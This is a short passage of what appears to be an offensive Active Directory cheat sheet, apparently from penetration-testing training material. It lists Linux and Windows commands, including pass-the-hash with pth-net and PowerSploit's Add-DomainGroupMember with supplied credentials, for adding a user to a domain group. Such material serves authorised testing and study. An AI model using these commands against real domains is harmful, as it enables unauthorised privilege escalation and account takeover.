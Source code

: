 === "Linux"

    ```bash
    # With net and cleartext credentials (will be prompted) 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST" 
    
    # With net and cleartext credentials 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST" 
    
    # With Pass-the-Hash 
    pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```

=== "Windows"

    ```powershell
    # Command line
	net group 'Help Desk Level 1' $user /add /domain 
	
	# Powershell: Active Directory module 
	Add-ADGroupMember -Identity 'Help Desk Level 1' -Members $user
	
	# Powershell: PowerSploit module 
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members $user
    
    ### "Windows with SecureString"
    ################
	# Creating a SecureString Object using damundsen
	$SecPassword = ConvertTo-SecureString '$damundsenPassword' -AsPlainText -Force
	$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
		
	# Add damundsen to the group
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
		
	# Confirming damundsen was Added to the Group
	Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

